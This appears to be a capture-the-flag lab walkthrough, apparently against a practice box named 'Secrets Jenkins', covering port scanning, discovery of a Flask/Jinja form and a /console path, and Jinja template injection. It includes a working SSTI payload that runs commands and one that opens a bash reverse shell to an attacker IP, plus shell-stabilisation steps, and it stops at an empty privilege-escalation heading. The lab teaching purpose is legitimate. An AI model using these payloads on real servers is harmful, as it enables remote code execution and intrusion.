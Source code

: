# Secrets Jenkins


## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:

![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

We can execute HTML injection to verify if it has any filters.

![alt text](Imagenes/Pingu_3.png)

If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:

![alt text](Imagenes/Pingu_5.png)

Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```

![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

